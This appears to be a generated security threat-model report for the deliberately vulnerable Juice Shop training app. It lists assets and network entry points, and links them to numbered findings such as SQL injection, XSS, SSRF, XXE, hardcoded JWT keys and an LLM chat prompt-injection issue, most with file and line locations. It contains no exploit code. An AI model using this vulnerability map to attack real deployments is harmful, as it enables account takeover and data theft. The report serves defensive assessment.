

**Key takeaway:** Until ❶ [M-023](#m-023) (Hash passwords with a strong, salted algorithm) lands, 🔴 [F-009](#f-009) — Passwords stored as unsalted MD5 hashes — `models/user.ts:77` is exploitable at `models/user.ts:77` (Critical-severity, [CWE-916](https://cwe.mitre.org/data/definitions/916.html)).

**Defense in Depth**

- Primary mitigation: ❶ [M-023](#m-023) (Hash passwords with a strong, salted algorithm)

<!-- generated:walkthrough_renderer -->

---

## 4. Assets

Information assets and the classification level that drives the Confidentiality / Integrity / Availability targets used in [§8 Findings Register](#8-findings-register) risk scoring.

<table style="table-layout:fixed;width:100%">
<colgroup><col width="20%" style="width:20%"><col width="6%" style="width:6%"><col width="12%" style="width:12%"><col width="29%" style="width:29%"><col width="33%" style="width:33%"></colgroup>
<thead><tr><th>Asset</th><th>ID</th><th>Classification</th><th>Description</th><th>Linked Threats</th></tr></thead>
<tbody>
<tr><td style="overflow-wrap:anywhere">User Credentials Database</td><td style="white-space:nowrap">A-001</td><td>Restricted</td><td>SQLite database table containing all user email addresses, hashed passwords (<code>MD5</code>`/weak`), and account data. Directly accessible via SQL injection in the login route.</td><td style="overflow-wrap:anywhere">🔴 <a href="#f-004">F-004</a> — OAuth deriving account password from email enables auth (<code>oauth.component.ts:30</code>)<br/>🔴 <a href="#f-005">F-005</a> — SQL injection in login query enables auth bypass (<code>routes/login.ts:34</code>)<br/>🔴 <a href="#f-006">F-006</a> — SQL injection in product search raw query (<code>routes/search.ts:23</code>)<br/>🔴 <a href="#f-009">F-009</a> — Passwords stored as unsalted `MD5` hashes (<code>models/user.ts:77</code>)<br/>🔴 <a href="#f-017">F-017</a> — Stored XSS (<code>last-login-ip.component.ts:39</code>)<br/>🔴 <a href="#f-018">F-018</a> — DOM XSS (<code>search-result.component.ts:143</code>)<br/>🟠 <a href="#f-033">F-033</a> — No rate limiting on login endpoint permits credential (<code>routes/login.ts:32</code>)<br/>🟠 <a href="#f-034">F-034</a> — No rate limiting or lockout on POST <code>/rest/user/login</code> (<code>server.ts:595</code>)<br/>🔴 <a href="#f-052">F-052</a> — InnerHTML sink renders markdown-derived hint HTML (<code>index.ts:126</code>)<br/>🟡 <a href="#f-054">F-054</a> — No audit logging of authentication and account-recovery (<code>routes/login.ts:32</code>)</td></tr>
<tr><td style="overflow-wrap:anywhere">RSA Private Signing Key</td><td style="white-space:nowrap">A-002</td><td>Restricted</td><td>RSA private key committed to <code>lib/insecurity.ts</code> used to sign all JWT session tokens. Readable by anyone with GitHub access to the public repository.</td><td style="overflow-wrap:anywhere">🔴 <a href="#f-002">F-002</a> — Hardcoded RSA JWT signing key in source (<code>lib/insecurity.ts:23</code>)<br/>🔴 <a href="#f-003">F-003</a> — Insecure JWT Verification (<code>lib/insecurity.ts:57</code>)<br/>🔴 <a href="#f-008">F-008</a> — Hardcoded RSA signing key enables offline JWT forgery (<code>lib/insecurity.ts:23</code>)<br/>🔴 <a href="#f-020">F-020</a> — Hardcoded HMAC key guards knowledge-based password reset (<code>lib/insecurity.ts:44</code>)<br/>🔴 <a href="#f-029">F-029</a> — Security answers HMAC'd with a hardcoded static (<code>models/securityAnswer.ts:48</code>)<br/>🟠 <a href="#f-037">F-037</a> — No server-side token revocation; logout leaves JWT valid (<code>lib/insecurity.ts:72</code>)<br/>🟡 <a href="#f-047">F-047</a> — Redirect allowlist uses substring match, enabling open (<code>lib/insecurity.ts:138</code>)<br/>🟡 <a href="#f-050">F-050</a> — Untrusted External Contribution to Public Repository (<code>ci.yml:14</code>)<br/>🟢 <a href="#f-068">F-068</a> — Unauthenticated GET <code>/metrics</code> exposes Prometheus internals (<code>server.ts:725</code>)</td></tr>
<tr><td style="overflow-wrap:anywhere">Payment Card Data</td><td style="white-space:nowrap">A-005</td><td>Restricted</td><td>Credit/debit card data stored in the Basket/Payment models. Intentionally stored in cleartext for training purposes — real payment PCI-DSS concern in production deployments.</td><td style="overflow-wrap:anywhere">🔴 <a href="#f-005">F-005</a> — SQL injection in login query enables auth bypass (<code>routes/login.ts:34</code>)<br/>🔴 <a href="#f-006">F-006</a> — SQL injection in product search raw query (<code>routes/search.ts:23</code>)<br/>🔴 <a href="#f-007">F-007</a> — Insecure Direct Object Reference (<code>routes/address.ts:11</code>)<br/>🔴 <a href="#f-017">F-017</a> — Stored XSS (<code>last-login-ip.component.ts:39</code>)<br/>🔴 <a href="#f-018">F-018</a> — DOM XSS (<code>search-result.component.ts:143</code>)<br/>🟠 <a href="#f-028">F-028</a> — Sensitive columns stored unencrypted at rest (<code>models/card.ts:40</code>)<br/>🔴 <a href="#f-039">F-039</a> — Sensitive Routes Registered Without Authentication Middleware (<code>server.ts:310</code>)<br/>🔴 <a href="#f-040">F-040</a> — Authenticated GET <code>/api/Users</code> exposes full user table without (<code>server.ts:362</code>)<br/>🔴 <a href="#f-045">F-045</a> — Excessive LLM Agency in Coupon Tool (<code>routes/chat.ts:174</code>)<br/>🔴 <a href="#f-052">F-052</a> — InnerHTML sink renders markdown-derived hint HTML (<code>index.ts:126</code>)</td></tr>
<tr><td style="overflow-wrap:anywhere">GitHub Actions CI/CD Secrets</td><td style="white-space:nowrap">A-007</td><td>Restricted</td><td>GITHUB_TOKEN and any repository secrets accessible to GitHub Actions workflows. 8 workflows with write-all inherited permissions and no SHA-pinned third-party actions create exfiltration risk.</td><td style="overflow-wrap:anywhere">-</td></tr>
<tr><td style="overflow-wrap:anywhere">Encryption Keys Directory</td><td style="white-space:nowrap">A-010</td><td>Restricted</td><td>The encryptionkeys/ directory contains plaintext private keys committed to the repository for training purposes. Readable by anyone with repo access.</td><td style="overflow-wrap:anywhere">🔴 <a href="#f-002">F-002</a> — Hardcoded RSA JWT signing key in source (<code>lib/insecurity.ts:23</code>)<br/>🔴 <a href="#f-008">F-008</a> — Hardcoded RSA signing key enables offline JWT forgery (<code>lib/insecurity.ts:23</code>)<br/>🔴 <a href="#f-020">F-020</a> — Hardcoded HMAC key guards knowledge-based password reset (<code>lib/insecurity.ts:44</code>)<br/>🔴 <a href="#f-029">F-029</a> — Security answers HMAC'd with a hardcoded static (<code>models/securityAnswer.ts:48</code>)<br/>🟢 <a href="#f-068">F-068</a> — Unauthenticated GET <code>/metrics</code> exposes Prometheus internals (<code>server.ts:725</code>)</td></tr>
<tr><td style="overflow-wrap:anywhere">JWT Session Tokens</td><td style="white-space:nowrap">A-003</td><td>Confidential</td><td>JWT tokens issued on successful authentication and stored in browser localStorage. Stolen tokens grant full account access including admin privileges.</td><td style="overflow-wrap:anywhere">🔴 <a href="#f-003">F-003</a> — Insecure JWT Verification (<code>lib/insecurity.ts:57</code>)<br/>🔴 <a href="#f-004">F-004</a> — OAuth deriving account password from email enables auth (<code>oauth.component.ts:30</code>)<br/>🟠 <a href="#f-013">F-013</a> — Wallet ownership accepted from request body without proof (<code>routes/nftMint.ts:41</code>)<br/>🔴 <a href="#f-017">F-017</a> — Stored XSS (<code>last-login-ip.component.ts:39</code>)<br/>🔴 <a href="#f-018">F-018</a> — DOM XSS (<code>search-result.component.ts:143</code>)<br/>🟠 <a href="#f-031">F-031</a> — JWT stored in non-httpOnly localStorage (<code>request.interceptor.ts:16</code>)<br/>🟠 <a href="#f-037">F-037</a> — No server-side token revocation; logout leaves JWT valid (<code>lib/insecurity.ts:72</code>)<br/>🟠 <a href="#f-044">F-044</a> — Admin authorization decided client-side from unverified JWT (<code>app.guard.ts:57</code>)<br/>🟡 <a href="#f-047">F-047</a> — Redirect allowlist uses substring match, enabling open (<code>lib/insecurity.ts:138</code>)<br/>🔴 <a href="#f-052">F-052</a> — InnerHTML sink renders markdown-derived hint HTML (<code>index.ts:126</code>)<br/>🟡 <a href="#f-053">F-053</a> — Alchemy RPC WebSocket event data trusted without (<code>routes/web3Wallet.ts:26</code>)<br/>🟡 <a href="#f-054">F-054</a> — No audit logging of authentication and account-recovery (<code>routes/login.ts:32</code>)<br/>🟡 <a href="#f-055">F-055</a> — No security audit log for authentication and admin actions (<code>routes/login.ts:34</code>)<br/>🔴 <a href="#f-059">F-059</a> — Container image signing (<code>lock.yml:1</code>)</td></tr>
<tr><td style="overflow-wrap:anywhere">User Personal Data (PII)</td><td style="white-space:nowrap">A-004</td><td>Confidential</td><td>User profiles including email, delivery addresses, and order history stored in SQLite. Subject to data exfiltration via SQL injection or IDOR.</td><td style="overflow-wrap:anywhere">🔴 <a href="#f-005">F-005</a> — SQL injection in login query enables auth bypass (<code>routes/login.ts:34</code>)<br/>🔴 <a href="#f-006">F-006</a> — SQL injection in product search raw query (<code>routes/search.ts:23</code>)<br/>🔴 <a href="#f-007">F-007</a> — Insecure Direct Object Reference (<code>routes/address.ts:11</code>)<br/>🔴 <a href="#f-014">F-014</a> — Zip-Slip path traversal in complaint zip extraction (<code>routes/fileUpload.ts:44</code>)<br/>🔴 <a href="#f-017">F-017</a> — Stored XSS (<code>last-login-ip.component.ts:39</code>)<br/>🔴 <a href="#f-018">F-018</a> — DOM XSS (<code>search-result.component.ts:143</code>)<br/>🔴 <a href="#f-039">F-039</a> — Sensitive Routes Registered Without Authentication Middleware (<code>server.ts:310</code>)<br/>🔴 <a href="#f-040">F-040</a> — Authenticated GET <code>/api/Users</code> exposes full user table without (<code>server.ts:362</code>)<br/>🔴 <a href="#f-043">F-043</a> — <code>User.role</code> is a mass-assignable column with only isIn (<code>models/user.ts:80</code>)<br/>🔴 <a href="#f-045">F-045</a> — Excessive LLM Agency in Coupon Tool (<code>routes/chat.ts:174</code>)<br/>🔴 <a href="#f-052">F-052</a> — InnerHTML sink renders markdown-derived hint HTML (<code>index.ts:126</code>)<br/>🟢 <a href="#f-068">F-068</a> — Unauthenticated GET <code>/metrics</code> exposes Prometheus internals (<code>server.ts:725</code>)</td></tr>
<tr><td style="overflow-wrap:anywhere">LLM API Key / Endpoint</td><td style="white-space:nowrap">A-008</td><td>Confidential</td><td>OpenAI-compatible API key (OPENAI_API_KEY or equivalent) used by <code>routes/chat.ts</code> for the opt-in LLM chat feature. Stored in environment variable; not committed to repo.</td><td style="overflow-wrap:anywhere">-</td></tr>
<tr><td style="overflow-wrap:anywhere">Application Source Code</td><td style="white-space:nowrap">A-006</td><td>Internal</td><td>Full application source code including all intentional vulnerabilities, challenge solutions, and encryption keys. Public on GitHub, providing attackers complete advance knowledge of the attack surface.</td><td style="overflow-wrap:anywhere">🔴 <a href="#f-002">F-002</a> — Hardcoded RSA JWT signing key in source (<code>lib/insecurity.ts:23</code>)<br/>🔴 <a href="#f-008">F-008</a> — Hardcoded RSA signing key enables offline JWT forgery (<code>lib/insecurity.ts:23</code>)<br/>🔴 <a href="#f-020">F-020</a> — Hardcoded HMAC key guards knowledge-based password reset (<code>lib/insecurity.ts:44</code>)<br/>🔴 <a href="#f-029">F-029</a> — Security answers HMAC'd with a hardcoded static (<code>models/securityAnswer.ts:48</code>)<br/>🟢 <a href="#f-068">F-068</a> — Unauthenticated GET <code>/metrics</code> exposes Prometheus internals (<code>server.ts:725</code>)</td></tr>
<tr><td style="overflow-wrap:anywhere">Uploaded User Files</td><td style="white-space:nowrap">A-009</td><td>Internal</td><td>Files uploaded by users to the uploads/ directory and served via serve-index. Path traversal in upload handler could expose arbitrary filesystem paths.</td><td style="overflow-wrap:anywhere">-</td></tr>
<tr><td style="overflow-wrap:anywhere">Challenge State / Progress</td><td style="white-space:nowrap">A-011</td><td>Internal</td><td>CTF challenge completion state stored in the Challenges model and Redis-like in-memory cache. Tampering allows false challenge-completion claims.</td><td style="overflow-wrap:anywhere">-</td></tr>
<tr><td style="overflow-wrap:anywhere">Application Configuration</td><td style="white-space:nowrap">A-012</td><td>Internal</td><td>Runtime configuration from <code>config/default.json</code> including feature flags, database paths, and security toggles. Exposed via <code>/rest/admin/application-configuration</code> endpoint without authentication.</td><td style="overflow-wrap:anywhere">-</td></tr>
<tr><td style="overflow-wrap:anywhere">Docker Container Image</td><td style="white-space:nowrap">A-014</td><td>Internal</td><td>Published Docker image (bkimminich/juice-shop) built from GitHub Actions release workflow. No artifact signing, SBOM attestation, or SLSA provenance attached to releases.</td><td style="overflow-wrap:anywhere">-</td></tr>
<tr><td style="overflow-wrap:anywhere">Product / Inventory Data</td><td style="white-space:nowrap">A-013</td><td>Public</td><td>Product catalogue and pricing stored in SQLite. Publicly readable via <code>/api/Products</code>. Admin routes allow modification without server-side authorization checks.</td><td style="overflow-wrap:anywhere">🟠 <a href="#f-001">F-001</a> — SPA holds API bearer credential client-side with no (<code>socket-io.service.ts:22</code>)<br/>🔴 <a href="#f-005">F-005</a> — SQL injection in login query enables auth bypass (<code>routes/login.ts:34</code>)<br/>🔴 <a href="#f-006">F-006</a> — SQL injection in product search raw query (<code>routes/search.ts:23</code>)<br/>🟠 <a href="#f-013">F-013</a> — Wallet ownership accepted from request body without proof (<code>routes/nftMint.ts:41</code>)<br/>🔴 <a href="#f-014">F-014</a> — Zip-Slip path traversal in complaint zip extraction (<code>routes/fileUpload.ts:44</code>)<br/>🔴 <a href="#f-017">F-017</a> — Stored XSS (<code>last-login-ip.component.ts:39</code>)<br/>🔴 <a href="#f-018">F-018</a> — DOM XSS (<code>search-result.component.ts:143</code>)<br/>🔴 <a href="#f-038">F-038</a> — Server-side eval of user-controlled username (<code>routes/userProfile.ts:61</code>)<br/>🔴 <a href="#f-039">F-039</a> — Sensitive Routes Registered Without Authentication Middleware (<code>server.ts:310</code>)<br/>🔴 <a href="#f-040">F-040</a> — Authenticated GET <code>/api/Users</code> exposes full user table without (<code>server.ts:362</code>)<br/>🔴 <a href="#f-043">F-043</a> — <code>User.role</code> is a mass-assignable column with only isIn (<code>models/user.ts:80</code>)<br/>🟠 <a href="#f-044">F-044</a> — Admin authorization decided client-side from unverified JWT (<code>app.guard.ts:57</code>)<br/>🔴 <a href="#f-052">F-052</a> — InnerHTML sink renders markdown-derived hint HTML (<code>index.ts:126</code>)<br/>🟡 <a href="#f-053">F-053</a> — Alchemy RPC WebSocket event data trusted without (<code>routes/web3Wallet.ts:26</code>)<br/>🟡 <a href="#f-055">F-055</a> — No security audit log for authentication and admin actions (<code>routes/login.ts:34</code>)</td></tr>
</tbody>
</table>

---

## 5. Attack Surface

Network-reachable entry points classified by authentication requirement. Each row links to the threat(s) referenced in its **Notes** column. The **Risk** column reflects the highest-severity linked finding. Entry points with no linked finding are still listed when they sit on a sensitive surface (authentication, registration, management) or look like a missing-auth/authz suspect - marked **⚑ Review** in Notes.

### 5.1 Unauthenticated Entry Points (58)

<table style="table-layout:fixed;width:100%">
<colgroup><col width="9%" style="width:9%"><col width="30%" style="width:30%"><col width="14%" style="width:14%"><col width="47%" style="width:47%"></colgroup>
<thead><tr><th>Method</th><th>Route</th><th>Risk</th><th>Notes</th></tr></thead>
<tbody>
<tr><td>GET</td><td style="overflow-wrap:anywhere"><code>/rest/products/search</code></td><td>🔴 Critical</td><td>🔴 <a href="#f-006">F-006</a> — SQL injection in product search raw query (<code>routes/search.ts:23</code>)<br/>handler: <code>server.ts:601</code></td></tr>
<tr><td>POST</td><td style="overflow-wrap:anywhere"><code>/rest/user/login</code></td><td>🔴 Critical</td><td>🟠 <a href="#f-033">F-033</a> — No rate limiting on login endpoint permits credential (<code>routes/login.ts:32</code>)<br/>🔴 <a href="#f-004">F-004</a> — OAuth deriving account password from email enables auth (<code>oauth.component.ts:30</code>)<br/>🟠 <a href="#f-034">F-034</a> — No rate limiting or lockout on POST <code>/rest/user/login</code> (<code>server.ts:595</code>)<br/>Primary authentication endpoint. SQL injection via raw string interpolation in <code>routes/login.ts:34</code>. Unauthenticated — any attacker can reach it.</td></tr>
<tr><td>POST</td><td style="overflow-wrap:anywhere"><code>/file-upload</code></td><td>🟠 High</td><td>🔴 <a href="#f-014">F-014</a> — Zip-Slip path traversal in complaint zip extraction (<code>routes/fileUpload.ts:44</code>)<br/>🟠 <a href="#f-021">F-021</a> — XXE: XML parsed with external entities enabled (<code>routes/fileUpload.ts:83</code>)<br/>handler: <code>server.ts:309</code></td></tr>
<tr><td>POST</td><td style="overflow-wrap:anywhere"><code>/profile</code></td><td>🟠 High</td><td>🟠 <a href="#f-022">F-022</a> — SSRF (<code>routes/profileImageUrlUpload.ts:24</code>)<br/>🔴 <a href="#f-043">F-043</a> — <code>User.role</code> is a mass-assignable column with only isIn (<code>models/user.ts:80</code>)<br/>handler: <code>server.ts:666</code></td></tr>
<tr><td>POST</td><td style="overflow-wrap:anywhere"><code>/profile/image/file</code></td><td>🟠 High</td><td>🟠 <a href="#f-022">F-022</a> — SSRF (<code>routes/profileImageUrlUpload.ts:24</code>)<br/>🟡 <a href="#f-055">F-055</a> — No security audit log for authentication and admin actions (<code>routes/login.ts:34</code>)<br/>handler: <code>server.ts:310</code></td></tr>
<tr><td>POST</td><td style="overflow-wrap:anywhere"><code>/profile/image/url</code></td><td>🟠 High</td><td>🟠 <a href="#f-022">F-022</a> — SSRF (<code>routes/profileImageUrlUpload.ts:24</code>)<br/>handler: <code>server.ts:311</code></td></tr>
<tr><td>POST</td><td style="overflow-wrap:anywhere"><code>/rest/user/reset-password</code></td><td>🟠 High</td><td>🔴 <a href="#f-020">F-020</a> — Hardcoded HMAC key guards knowledge-based password reset (<code>lib/insecurity.ts:44</code>)<br/>🟠 <a href="#f-033">F-033</a> — No rate limiting on login endpoint permits credential (<code>routes/login.ts:32</code>)<br/>🟠 <a href="#f-034">F-034</a> — No rate limiting or lockout on POST <code>/rest/user/login</code> (<code>server.ts:595</code>)<br/>handler: <code>server.ts:597</code></td></tr>
<tr><td>POST</td><td style="overflow-wrap:anywhere"><code>/​rest/​web3/​walletExploitAddress</code></td><td>🟠 High</td><td>🟠 <a href="#f-036">F-036</a> — Web3 endpoints have no rate limiting and grow (<code>routes/web3Wallet.ts:16</code>)<br/>handler: <code>server.ts:644</code></td></tr>
<tr><td>GET</td><td style="overflow-wrap:anywhere"><code>/ftp/</code></td><td>🟠 High</td><td>🔴 <a href="#f-014">F-014</a> — Zip-Slip path traversal in complaint zip extraction (<code>routes/fileUpload.ts:44</code>)<br/>serve-index public directory listing of ftp/ directory. Exposes backup files and sensitive documents. Intentional training challenge.</td></tr>
<tr><td>GET</td><td style="overflow-wrap:anywhere"><code>/profile</code></td><td>🟠 High</td><td>🟠 <a href="#f-022">F-022</a> — SSRF (<code>routes/profileImageUrlUpload.ts:24</code>)<br/>🔴 <a href="#f-043">F-043</a> — <code>User.role</code> is a mass-assignable column with only isIn (<code>models/user.ts:80</code>)<br/>handler: <code>server.ts:665</code></td></tr>
<tr><td>GET</td><td style="overflow-wrap:anywhere"><code>/redirect</code></td><td>🟠 High</td><td>🟠 <a href="#f-035">F-035</a> — Catastrophic-backtracking regex on client data (<code>registerWebsocketEvents.ts:46</code>)<br/>handler: <code>server.ts:658</code></td></tr>
<tr><td>GET</td><td style="overflow-wrap:anywhere"><code>/rest/user/security-question</code></td><td>🟠 High</td><td>🟠 <a href="#f-010">F-010</a> — Security-question-based password reset enables (<code>routes/resetPassword.ts:35</code>)<br/>handler: <code>server.ts:598</code></td></tr>
<tr><td>GET</td><td style="overflow-wrap:anywhere"><code>/rest/web3/nftMintListen</code></td><td>🟠 High</td><td>🟠 <a href="#f-036">F-036</a> — Web3 endpoints have no rate limiting and grow (<code>routes/web3Wallet.ts:16</code>)<br/>handler: <code>server.ts:642</code></td></tr>
<tr><td>GET</td><td style="overflow-wrap:anywhere"><code>/​this/​page/​is/​hidden/​behind/​an/​incredibly/​high/​paywall/​that/​could/​only/​be/​unlocked/​by/​sending/​1btc/​to/​us</code></td><td>🟠 High</td><td>🔴 <a href="#f-017">F-017</a> — Stored XSS (<code>last-login-ip.component.ts:39</code>)<br/>🟠 <a href="#f-031">F-031</a> — JWT stored in non-httpOnly localStorage (<code>request.interceptor.ts:16</code>)<br/>🟠 <a href="#f-041">F-041</a> — Missing Explicit Workflow Permissions (<code>ci.yml:1</code>)<br/>handler: <code>server.ts:651</code></td></tr>
<tr><td>GET</td><td style="overflow-wrap:anywhere"><code>/rest/user/change-password</code></td><td>🟡 Medium</td><td>🟡 <a href="#f-054">F-054</a> — No audit logging of authentication and account-recovery (<code>routes/login.ts:32</code>)<br/>handler: <code>server.ts:596</code></td></tr>
<tr><td>GET</td><td style="overflow-wrap:anywhere"><code>/metrics</code></td><td>🟢 Low</td><td>🟢 <a href="#f-068">F-068</a> — Unauthenticated GET <code>/metrics</code> exposes Prometheus internals (<code>server.ts:725</code>)<br/>Management surface; handler: <code>server.ts:725</code></td></tr>
<tr><td>POST</td><td style="overflow-wrap:anywhere"><code>/rest/user/data-export</code></td><td>🟢 Low</td><td>🟢 <a href="#f-074">F-074</a> — Client CAPTCHA timestamp read unvalidated from (<code>data-export.component.ts:48</code>)<br/>handler: <code>server.ts:619</code></td></tr>
<tr><td>POST</td><td style="overflow-wrap:anywhere"><code>/</code></td><td>-</td><td>handler: <code>routes/dataErasure.ts:74</code><br/><em>⚑ Review: no auth guard detected</em></td></tr>
<tr><td>GET</td><td style="overflow-wrap:anywhere"><code>/​rest/​admin/​application-​configuration</code></td><td>-</td><td>Management surface; handler: <code>server.ts:606</code><br/><em>⚑ Review: no auth guard detected</em></td></tr>
<tr><td>GET</td><td style="overflow-wrap:anywhere"><code>/​rest/​admin/​application-​version</code></td><td>-</td><td>Management surface; handler: <code>server.ts:605</code><br/><em>⚑ Review: no auth guard detected</em></td></tr>
<tr><td>PUT</td><td style="overflow-wrap:anywhere"><code>/​rest/​continue-​code-​findIt/​apply/​:​continueCode</code></td><td>-</td><td>handler: <code>server.ts:611</code><br/><em>⚑ Review: no auth guard detected</em></td></tr>
<tr><td>PUT</td><td style="overflow-wrap:anywhere"><code>/​rest/​continue-​code-​fixIt/​apply/​:​continueCode</code></td><td>-</td><td>handler: <code>server.ts:612</code><br/><em>⚑ Review: no auth guard detected</em></td></tr>
<tr><td>PUT</td><td style="overflow-wrap:anywhere"><code>/​rest/​continue-​code/​apply/​:​continueCode</code></td><td>-</td><td>handler: <code>server.ts:613</code><br/><em>⚑ Review: no auth guard detected</em></td></tr>
<tr><td>POST</td><td style="overflow-wrap:anywhere"><code>/rest/memories</code></td><td>-</td><td>handler: <code>server.ts:312</code><br/><em>⚑ Review: no auth guard detected</em></td></tr>
<tr><td>PUT</td><td style="overflow-wrap:anywhere"><code>/​rest/​order-​history/​:​id/​delivery-​status</code></td><td>-</td><td>handler: <code>server.ts:624</code><br/><em>⚑ Review: no auth guard detected</em></td></tr>
<tr><td>POST</td><td style="overflow-wrap:anywhere"><code>/rest/web3/submitKey</code></td><td>-</td><td>handler: <code>server.ts:640</code><br/><em>⚑ Review: no auth guard detected</em></td></tr>
<tr><td>POST</td><td style="overflow-wrap:anywhere"><code>/rest/web3/walletNFTVerify</code></td><td>-</td><td>handler: <code>server.ts:643</code><br/><em>⚑ Review: no auth guard detected</em></td></tr>
<tr><td>POST</td><td style="overflow-wrap:anywhere"><code>/snippets/fixes</code></td><td>-</td><td>handler: <code>server.ts:672</code><br/><em>⚑ Review: no auth guard detected</em></td></tr>
<tr><td>POST</td><td style="overflow-wrap:anywhere"><code>/snippets/verdict</code></td><td>-</td><td>handler: <code>server.ts:670</code><br/><em>⚑ Review: no auth guard detected</em></td></tr>
</tbody>
</table>

_29 further entry point(s) in this category carry no linked finding and no elevated review signal, and are not listed individually (58 total). The complete route inventory is available in `.route-inventory.json` and, when exported, `pentest-tasks.yaml`._

### 5.2 Authenticated Entry Points (52)

<table style="table-layout:fixed;width:100%">
<colgroup><col width="9%" style="width:9%"><col width="30%" style="width:30%"><col width="14%" style="width:14%"><col width="47%" style="width:47%"></colgroup>
<thead><tr><th>Method</th><th>Route</th><th>Risk</th><th>Notes</th></tr></thead>
<tbody>
<tr><td>GET</td><td style="overflow-wrap:anywhere"><code>/rest/basket/:id</code></td><td>🟠 High</td><td>🟠 <a href="#f-046">F-046</a> — Web3 state-changing endpoints registered without authentication (<code>server.ts:642</code>)<br/>handler: <code>server.ts:602</code></td></tr>
<tr><td>GET</td><td style="overflow-wrap:anywhere"><code>/api/Users</code></td><td>🟠 High</td><td>🔴 <a href="#f-040">F-040</a> — Authenticated GET <code>/api/Users</code> exposes full user table without (<code>server.ts:362</code>)<br/>🟠 <a href="#f-046">F-046</a> — Web3 state-changing endpoints registered without authentication (<code>server.ts:642</code>)<br/>handler: <code>server.ts:362</code></td></tr>
<tr><td>POST</td><td style="overflow-wrap:anywhere"><code>/api/Users</code></td><td>🟠 High</td><td>🔴 <a href="#f-040">F-040</a> — Authenticated GET <code>/api/Users</code> exposes full user table without (<code>server.ts:362</code>)<br/>🟠 <a href="#f-046">F-046</a> — Web3 state-changing endpoints registered without authentication (<code>server.ts:642</code>)<br/>handler: <code>server.ts:407</code></td></tr>
<tr><td>POST</td><td style="overflow-wrap:anywhere"><code>/rest/chat</code></td><td>🟠 High</td><td>🟠 <a href="#f-011">F-011</a> — Missing Authentication on Chat Endpoint (<code>server.ts:637</code>)<br/>🟡 <a href="#f-063">F-063</a> — Unbounded LLM Consumption on Chat Endpoint (<code>server.ts:637</code>)<br/>🟠 <a href="#f-019">F-019</a> — Prompt Injection (<code>routes/chat.ts:189</code>)<br/>handler: <code>server.ts:637</code></td></tr>
<tr><td>PUT</td><td style="overflow-wrap:anywhere"><code>/api/Addresss/:id</code></td><td>-</td><td>handler: <code>server.ts:449</code><br/><em>⚑ Review: no authz guard detected</em></td></tr>
<tr><td>DELETE</td><td style="overflow-wrap:anywhere"><code>/api/Addresss/:id</code></td><td>-</td><td>handler: <code>server.ts:450</code><br/><em>⚑ Review: no authz guard detected</em></td></tr>
<tr><td>PUT</td><td style="overflow-wrap:anywhere"><code>/api/BasketItems/:id</code></td><td>-</td><td>handler: <code>server.ts:425</code><br/><em>⚑ Review: no authz guard detected</em></td></tr>
<tr><td>PUT</td><td style="overflow-wrap:anywhere"><code>/api/Cards/:id</code></td><td>-</td><td>handler: <code>server.ts:439</code><br/><em>⚑ Review: no authz guard detected</em></td></tr>
<tr><td>DELETE</td><td style="overflow-wrap:anywhere"><code>/api/Cards/:id</code></td><td>-</td><td>handler: <code>server.ts:440</code><br/><em>⚑ Review: no authz guard detected</em></td></tr>
<tr><td>GET</td><td style="overflow-wrap:anywhere"><code>/api/Cards/:id</code></td><td>-</td><td>handler: <code>server.ts:441</code><br/><em>⚑ Review: no authz guard detected</em></td></tr>
<tr><td>PUT</td><td style="overflow-wrap:anywhere"><code>/api/Feedbacks/:id</code></td><td>-</td><td>handler: <code>server.ts:432</code><br/><em>⚑ Review: no authz guard detected</em></td></tr>
<tr><td>PUT</td><td style="overflow-wrap:anywhere"><code>/api/Products/:id</code></td><td>-</td><td>handler: <code>server.ts:369</code><br/><em>⚑ Review: no authz guard detected</em></td></tr>
<tr><td>DELETE</td><td style="overflow-wrap:anywhere"><code>/api/Products/:id</code></td><td>-</td><td>handler: <code>server.ts:370</code><br/><em>⚑ Review: no authz guard detected</em></td></tr>
<tr><td>DELETE</td><td style="overflow-wrap:anywhere"><code>/api/Quantitys/:id</code></td><td>-</td><td>handler: <code>server.ts:428</code><br/><em>⚑ Review: no authz guard detected</em></td></tr>
<tr><td>GET</td><td style="overflow-wrap:anywhere"><code>/api/Recycles/:id</code></td><td>-</td><td>handler: <code>server.ts:387</code><br/><em>⚑ Review: no authz guard detected</em></td></tr>
<tr><td>PUT</td><td style="overflow-wrap:anywhere"><code>/api/Recycles/:id</code></td><td>-</td><td>handler: <code>server.ts:388</code><br/><em>⚑ Review: no authz guard detected</em></td></tr>
<tr><td>DELETE</td><td style="overflow-wrap:anywhere"><code>/api/Recycles/:id</code></td><td>-</td><td>handler: <code>server.ts:389</code><br/><em>⚑ Review: no authz guard detected</em></td></tr>
<tr><td>POST</td><td style="overflow-wrap:anywhere"><code>/rest/2fa/disable</code></td><td>-</td><td>handler: <code>server.ts:470</code><br/><em>⚑ Review: auth/token endpoint</em></td></tr>
